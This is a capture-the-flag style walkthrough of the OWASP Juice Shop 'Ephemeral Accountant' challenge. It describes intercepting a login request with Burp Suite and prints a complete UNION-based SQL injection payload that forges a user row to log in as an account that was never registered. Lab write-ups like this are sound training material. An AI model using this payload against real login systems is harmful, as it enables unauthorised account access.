


# Juice Shop: Ephemeral Accountant  

## Challenge Overview  
- **Title:** Ephemeral Accountant  
- **Difficulty:** 4/6  
- **Description:** Log in with the (non-existing) accountant `acc0unt4nt@juice-sh.op` without ever registering that user.  

---

## Tools Used  
- **Browser** – To trigger normal login requests.  
- **Burp Suite** – To intercept and manipulate login requests.  

---

## Methodology and Solution  

At first glance, the challenge seems **impossible**:  
How can we log in as a user that doesn’t exist in the database without ever registering it? 🤔  

The trick lies in exploiting a **SQL Injection vulnerability**.  

---

### 1. Capturing the Login Request  
- I attempted a normal login with some random credentials.  
- Using **Burp Suite**, I intercepted the request and observed the payload being sent in the **email** and **password** fields.  
 
---

### 2. Crafting a SQL Injection Payload  
- I tested injection attempts on the **email field** to bypass user validation.  
- By supplying crafted input, I was able to **trick the backend SQL query** into returning a match for the target user `acc0unt4nt@juice-sh.op`, even though the account doesn’t exist in the DB.  
Payload:
```html
"email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--"
```
This payload forces the SQL query to always evaluate true for the specified email, making the application log me in as that user.
---

### 3. Successful Login
- After forwarding the manipulated request, the login was accepted.
- I was authenticated as acc0unt4nt@juice-sh.op without ever registering that account.
  Challenge solved!

### Result
Exploited a SQL Injection vulnerability in the login mechanism.  
Successfully logged in as the non-existing user acc0unt4nt@juice-sh.op.  
